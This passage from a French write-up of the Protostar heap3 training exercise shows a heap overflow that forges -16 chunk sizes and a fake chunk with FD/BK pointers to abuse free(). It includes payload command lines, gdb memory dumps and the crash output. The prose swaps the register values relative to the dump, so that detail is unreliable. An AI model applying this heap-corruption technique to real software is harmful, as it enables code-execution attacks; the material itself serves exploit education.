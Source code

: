 On voit que le 3ème chunk est à l'adresse `0x804c050`. On va déborder du second chunk pour écraser le champ de taille du précédent chunk et celui de taille du chunk.

Je vais spécifier une taille de -16 soit `0xfffffff0` en hexadécimal :

```python
>>> (-16).to_bytes(4, byteorder=sys.byteorder, signed=True)
b'\xf0\xff\xff\xff'
```

Via la copie dans le 3ème chunk je vais placer mon faux chunk qui sera alors à l'adresse `0x804c060` (la ligne du dessous dans gdb). 

Tout ça est facilité par le fait que les appels à `strcpy()` se font dans l'ordre de création des chunks : le zéro terminal qui est placé par la fonction `strcpy()` au début des données du second chunk sera effacé par le `strcpy()` suivant.

On peut déjà vérifier que `malloc` tente de fusionner notre faux chunk en mettant un FD et BK invalides (respectivement des lettres `D` et des `E`) :

```
(gdb) r AAAA `python -c 'print "B"*32 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "DDDDEEEE"'`
Starting program: /opt/protostar/bin/heap3 AAAA `python -c 'print "B"*32 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "DDDDEEEE"'`

Breakpoint 1, 0x08048911 in main (argc=4, argv=0xbffff804) at heap3/heap3.c:24
24      in heap3/heap3.c
(gdb) x/36wx 0x804c000
0x804c000:      0x00000000      0x00000029      0x41414141      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c040:      0x42424242      0x42424242      0x42424242      0x42424242
0x804c050:      0xfffffff0      0xfffffff0      0x43434343      0x43434343 <- on a écrasé la taille du chunk existant pour mettre -16
0x804c060:      0x43434343      0x43434343      0x44444444      0x45454545 <- notre faux chunk
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
0x804c080:      0x00000000      0x00000000      0x00000000      0x00000000
(gdb) ni

Program received signal SIGSEGV, Segmentation fault.
0x080498fd in free (mem=0x804c058) at common/malloc.c:3638
3638    common/malloc.c: No such file or directory.
        in common/malloc.c
(gdb) x/i $eip
0x80498fd <free+217>:   mov    %edx,0xc(%eax)
(gdb) info reg edx eax
edx            0x45454545       1162167621
eax            0x44444444       114532461
```

Ici le breakpoint  a été mis sur le premier appel à `free()` et l'exécution de la fonction provoque un segmentation fault car le programme tente d'écrire la valeur `0x44444444` (`edx`) à l'adresse `0x45454545 + 0xc` (`eax+12`).
